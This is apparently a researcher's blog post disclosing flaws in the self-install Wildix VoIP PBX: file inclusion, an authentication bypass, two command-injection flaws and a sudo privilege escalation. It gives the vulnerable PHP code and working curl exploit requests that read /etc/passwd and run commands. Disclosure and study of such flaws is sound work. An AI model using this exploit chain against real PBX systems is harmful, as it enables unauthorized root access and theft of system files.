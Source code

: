 ```yaml
---
layout: post
title: wildix vulnerabilities
---
```



According to www.wildix.com

*Wildix VoIP PBX is a reliable communication system for small or large business, it is scalable, flexible and it easily adapts to the needs of any company.*

wildix pbx is a pbx system offered by wildix that is built using php, i was able to find a couple of vulnerabilities . but i soon learned that the vulnerabilities only exist in the self install version, both their virtual and physical appliances seem to not contain these vulnerabilities , i was unable to find any cve's associated with these vulnerabilities

first vulnerability was a very simple one , was quite surprising to see

### Arbitrary file inclusion
This bug exists in the index.php file. A user supplied file name is included with no checks or validations.

```php
require_once "auth.php";
/*

REDACTED
*/
if (!empty($_GET["class"])) {
    ini_set("include_path", BASEPATH . "classes/PEAR/" . ":" . ini_get("include_path"));
    ini_set("include_path", BASEPATH . ":" . ini_get("include_path"));
    require "lang/" . (isset($_SESSION["language"]) ? $_SESSION["language"] : "english") . ".inc.php";
    require_once $_GET["class"];
    exit("Cannot redirect to class file");
}

```
The path that is set to get param `class` is included without validation. this can be used to include any php file in the system to execute and any non-php file to read .
But `auth.php` file is included. And that file will exit if the proper creds aren't supplied. thats okay thou as there exits an auth bypass bug on it 
### Auth bypass
```php
require_once dirname(__FILE__) . "/init.php";
if (strtolower($_SERVER["HTTP_X_REQUESTED_WITH"]) == "xmlhttprequest") {
    if (!isset($_SERVER["REMOTE_USER"])) {
        exit("Cannot authorize the user");
    }
} else {
    if (!User::getInstance()->isLogged()) {
        header("Location: logout/?" . $_SERVER["REQUEST_URI"]);
        exit("Cannot authorize the user");
    }
}
if ((!isset($_SESSION["language"]) || !isset($_SESSION["username"])) && !isset($_GET["mac"])) {
    header("location: ./");
}
//REDACTED
```
If header `X-Requested-With` is set to `xmlhttprequest` and the value of `$_SERVER["REMOTE_USER"]` is set to any value. authentication does not occur . and down the line if `$_SESSION["username"]` is not set the script will redirect using `header()` . but the `header` function only sets response headers and does not exit . therefore the script will continue to execute, 

**exploitation :** send a request with header `X-Requested-With` set to `xmlhttprequest`,header `Authorization` set to `Basic YWRtaW46YWRtaW5h` (Basic and base64 of username and password contatinated together with a colon `:` in between. This is to in order to set variable `$_SERVER["REMOTE_USER"]` using HTTP BASIC AUTHORIZATION ). And finally get param `class` set to the path of the file to be included 

```console
$ curl 'http://192.168.0.19/index.php?class=/etc/passwd' -H 'X-Requested-With: xmlhttprequest' -H 'Authorization: Basic YWRtaW46YWRtaW5h' 
 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
wms:x:1000:1000:,,,:/var/www:/bin/bash
callweaver:x:1001:1001:,,,:/var/www:/bin/false
admin:x:1002:1003:Administrator,,,:/home/admin:/bin/bash
openldap:x:1003:1004::/home/openldap:/bin/sh
ejabberd:x:1004:1005::/dev/shm/wmsdb.d/ejabberd:/bin/sh
fetchmail:x:103:65534::/var/lib/fetchmail:/bin/false
snmp:x:105:65534::/var/lib/snmp:/bin/false
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/bin/false
ntp:x:104:104::/home/ntp:/bin/false
nagios:x:106:106::/var/log/nagios:/bin/false
shellinabox:x:107:107:Shell In A Box,,,:/var/lib/shellinabox:/bin/false
freerad:x:108:108::/etc/freeradius:/bin/false
statd:x:109:65534::/var/lib/nfs:/bin/false
Cannot redirect to class file%
```
### RCE (using auth bypass)
the endpoint `features/make_keys_pdf.php` uses a user supplied value in a command without any sanitization
```php
require_once "../init.php";
if (preg_match("/(cticonnect)|(collaboration)/", $_SERVER["REQUEST_URI"])) {
    //REDACTED
} else {
    include_once file_exists("auth.php") ? "auth.php" : "../auth.php";
}
require_once "functions.php";
if (isset($_GET["set"])) {
/*
...
REDACTED
...
*/
	$file = exec("lua /var/www/lua/make_keys_pdf.lua " . json_encode($_GET["set"]) . " " . json_encode(json_encode($arr_fkeys)));
    if (file_exists($file)) {
        readfile($file);
        unlink($file);
    }
}


```
since `auth.php` is included , the auth bypass is needed here. other than that it is a straight forward command execution

**exploitation :** send a request to endpoint `features/make_keys_pdf.php` with headers mentioned in the auth bypass above set accordingly and with get param `set` set to command to be executed inside backticks
```console
$ curl 'http://192.168.0.19/features/make_keys_pdf.php?set=`id>PWNED`' -H 'X-Requested-With: xmlhttprequest' -H 'Authorization: Basic YWRtaW46YWRtaW5h' 

$ curl 'http://192.168.0.19/features/PWNED'
uid=1000(wms) gid=1000(wms) groups=42(shadow),1000(wms),1005(ejabberd)

```

### RCE
This one is very straight forward . a user supplied value is directly concatenated in to a command and executed. And since `auth.php` is not included there is no need for auth bypass. The vulnerable endpoint is  `/devices/device_verify.php`
```php
if (isset($_GET["action"]) && isset($_GET["ip"])) {
    $nmap_opts = "-sS";
    if (isset($_GET["rawScan"])) {
        $nmap_opts = "--unprivileged -sT";
    }
    $content = exec("nice -n 20 nohup sudo nmap --script /var/www/lua/discovery.nse " . $nmap_opts . " -n --max-retries 2 --max-hostgroup 1 --max-rtt-timeout 1750ms --initial-rtt-timeout 1250ms --open -p 80,443 -oG - " . $_GET["ip"] . " 2>&1 >/dev/null");
    echo "{" . $content . "}";
}

?>
```

**exploitation :** send a request to endpoint  `/devices/device_verify.php` with get param `action` set to any value and get param `ip` set to a the command to be executed inside backticks

```console

$ curl 'http://192.168.0.19/devices/device_verify.php?action=xx&ip=`id>/tmp/PWNED`'

```

#### privilege escalation

The webserver is running via user wms. so to gain root privilages some extra work is needed 
looking at the `/etc/sudoers` file 

```
root    ALL=(ALL) ALL

# Uncomment to allow members of group sudo to not need a password
# (Note that later entries override this, so you might need to move
# it further down)
# %sudo ALL=NOPASSWD: ALL

Defaults        lecture=never,!syslog

Cmnd_Alias WMS_PBX=/usr/sbin/check_io_usb.sh, /usr/bin/mutt, /etc/init.d/lighttpd, /usr/sbin/monit, /etc/init.d/fastcgi, /usr/sbin/dhcpd, /etc/dhcp.conf, /var/lib/dhcpd, /etc/init.d/ntpdate, /etc/monit/gendnsmonit, /bin/echo, /usr/bin/monit, /usr/sbin/wms_remote_support, /usr/sbin/wms_auth_sync, /usr/sbin/fix-dpkg.sh, /sbin/ifup, /sbin/ifdown, /etc/init.d/dnsmasq, /sbin/ifconfig, /sbin/route, /bin/date, /etc/cron.d, /usr/sbin/ntpdate-debian, /etc/init.d/ifplugd, /usr/sbin/ifplugd, /etc/default/ntpdate, /etc/init.d/ntp, /etc/init.d/sshd, /etc/init.d/ssh, /etc/init.d/callweaver, /usr/sbin/update-rc.d, /usr/bin/sox, /usr/sbin/callweaver, /bin/hostname, /usr/sbin/wmsreset, /usr/sbin/wms_backup_create, /usr/sbin/wms_applybackup, /bin/cat, /etc/init.d/networking, /bin/mount, /bin/umount, /sbin/start-stop-daemon, /usr/bin/apt-get, /sbin/reboot, /usr/sbin/wms_upgrade, /bin/df, /bin/chmod, /bin/chown, /sbin/blkid, /sbin/mii-tool, /etc/init.d/monit, /etc/init.d/snmpd, /sbin/mkfs.ext2, /sbin/mkfs.ext3, /usr/bin/munpack, /etc/init.d/inetd, /usr/bin/resident, /sbin/iptables, /usr/bin/pkill, /bin/kill, /usr/sbin/tcpdump, /usr/bin/rsync, /usr/bin/ssh-keygen, /usr/bin/jail-apt, /usr/bin/custom-apt, /sbin/halt, /usr/sbin/dnsmasq, /etc/init.d/dnsmasq, /usr/sbin/wms_gs_encoder, /etc/init.d/slapd, /etc/init.d/wildix-con_server, /etc/init.d/wildix-con_client, /etc/init.d/vtun, /etc/init.d/openvpn, /bin/ping, /usr/sbin/dmidecode, /bin/ln, /bin/cp, /bin/rm, /bin/mkdir, /usr/sbin/usermod, /usr/bin/nmap, /usr/sbin/kamctl, /usr/sbin/wmsbind, /usr/sbin/ldap_reset, /etc/init.d/kamailio, /usr/sbin/restart_kamailio_with_delay, /sbin/sysctl, /usr/sbin/brctl, /sbin/vconfig, /usr/sbin/wshaper, /usr/sbin/ucarp, /bin/sync, /usr/sbin/gsm-rebooter, /etc/init.d/sms, /etc/init.d/transmitfax, /usr/sbin/syslog_grep, /usr/sbin/lighty-enable-mod, /usr/sbin/lighty-disable-mod, /usr/sbin/init_usb, /sbin/udevadm, /sbin/sfdisk, /etc/init.d/ejabberd, /usr/sbin/remount_fs,/var/www/upgrade/upgrade_stage2.php, /etc/init.d/radicale, /usr/bin/lua, /etc/init.d/freeradius, /etc/init.d/tproxyd, /bin/netstat, /etc/init.d/whoteld, /etc/init.d/rtpengine, /usr/bin/touch, /usr/bin/awk, /bin/sed, /etc/init.d/wudpecho, /etc/network/if-up.d/hosts, /usr/sbin/update_kamailio_cfg.sh, /usr/sbin/ejabberdctl, /usr/sbin/smartctl

User_Alias WMS_PBX=wms,admin,ejabberd

WMS_PBX ALL=(ALL) NOPASSWD: WMS_PBX

nagios ALL=(ALL) NOPASSWD: ALL


```
The user wms is allowd to user sudo without password to execute some executable files. some of there are intresting. The file `/var/www/upgrade/upgrade_stage2.php` is one of those files , and the permitions on this file are 

```console
root@wildix_server:/# ls -alh /var/www/upgrade/upgrade_stage2.php
-rwxr-xr-x 1 wms wms 42 2021-01-10 17:40 /var/www/upgrade/upgrade_stage2.php

```

we can write into the file and then execute it with sudo to gian root privilages
